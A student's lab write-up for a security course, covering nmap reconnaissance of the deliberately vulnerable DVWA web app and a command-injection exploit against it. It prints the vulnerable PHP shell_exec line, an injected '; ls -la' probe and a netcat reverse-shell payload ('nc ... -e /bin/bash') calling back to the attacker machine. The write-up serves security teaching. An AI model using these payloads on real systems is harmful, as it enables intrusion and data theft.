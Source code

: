 Tutorial 4: Server-Side Web Vulnerabilities
===========================================

Gathering information on `dvwa`
-------------------------------
We are exploiting a web application hosted on `dvwa`. As such, we want to gather the following information:
1. `dvwa`'s IP address
2. The operating system it's running
3. The web server software (and version) it's using to serve content
4. The version of PHP being used to execute PHP scripts hosted on the web server

This can be done using `nmap`:
1. I tried `nmap -sP 10.6.66.1/24`, like in the previous lab to try and find `dvwa`'s IP. However this only revealed 10.6.66.1 (DHCP server) and 10.6.66.64 (`kali_vm` or ourselves). That's cause I didn't launch `dvwa` (I might be slightly retarded). After launching it, I identified its IP as **10.6.66.42**.
2. To identify the OS, I used `nmap -O 10.6.66.42`, which provided the following relevant information:
```
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel.:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```
This identifies the OS as anything between Linux 3.2 and 4.9.
3. `nmap -sSV 10.6.66.42` was used to perform a scan of the popular TCP ports and identify their versions:
```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian) PHP/5.6.29-0+deb8u1)
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:05:A6:4D (Oracle VirtualBox virtual NIC)
```
This not only identified the web server software as **Apache 2.4.10**, but also identified the PHP version as **5.6**

**Questions**
1. The way `nmap` determines a host's operating system is that it sends specific tcp packets and fingerprint the responses using TCP/IPS fingerprinting. The Linux 3.2 - 4.9 OS must send out the same response, and as such it can't distinguish between them.
2. Another way to gain information about the operating system can be using the version provided by `nmap`'s TCP scan. We can see that Apache is running on Debian. The '+deb8u1' indicates that it's Debian 8 (also called "jessie"), see [**here**](https://unix.stackexchange.com/questions/119158/why-do-some-debian-packages-have-a-deb7u2-suffix).
3. An administrator of `dvwa` could setup a firewall to block connections from certain IP addresses. *Check solutions when they're released*

Finding vulnerabilities in `dvwa`
---------------------------------
After connecting to the `dvwa` webpage, we are told to use the *Command Injection* or *File Upload* sections and exploit a vulnerability present in the source code to find a hidden file.

**Command Injection**
*Security Level: low*
Looking at the source code, we can see the following lines of interest:
```
$target = $_REQUEST[ 'ip' ]; // Extracts input we provide to the prompt in the webapp
$cmd = shell_exec( 'ping  -c 4 ' . $target ); // Directly inserts the input into a shell command
```
Looking at this, if we insert a `;` (shell command seperator), `&` (makes preceding command run in background) or `&&` (runs succeeding command sequentially), we can insert another shell command afterwards to be run. To start with, I probed using `; ls -la`, which printed the web-app's working directory on the webpage.

A more interesting exploit that can be done with this is opening a [**reverse-shell**](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/), which essentially gives us a shell in our host computer that executes commands on the target computer. I set it up as follows:
1. Run `nc -lvp 42069` on `kali-vm` (or your attacker computer), where 42069 is the desired TCP port we will be running the connection over.
2. Trick `dvwa` (or victim) into running `nc 10.6.66.64 42069 -e /bin/bash`, where `10.6.66.64` is `kali-vm`'s IP and `42069` is the port we are listening on.
3. In the terminal where you ran netcat on your attacker computer you now have a bash terminal inside the victim!

From here I used the [**locate**](https://linuxize.com/post/locate-command-in-linux/) command as follows: `locate -i secret`, which returns all filenames which contain 'secret' (`-i` makes it case invariant). This identified the secret file in `/home/csn/THIS_IS_THE_SECRET_FILE.txt`. I used `cat` to check the file contents and copied it onto my local machine. MISSION SUCCESS!

*N.B. - I tried to use `scp` but I don't think ssh is working on `dvwa`*

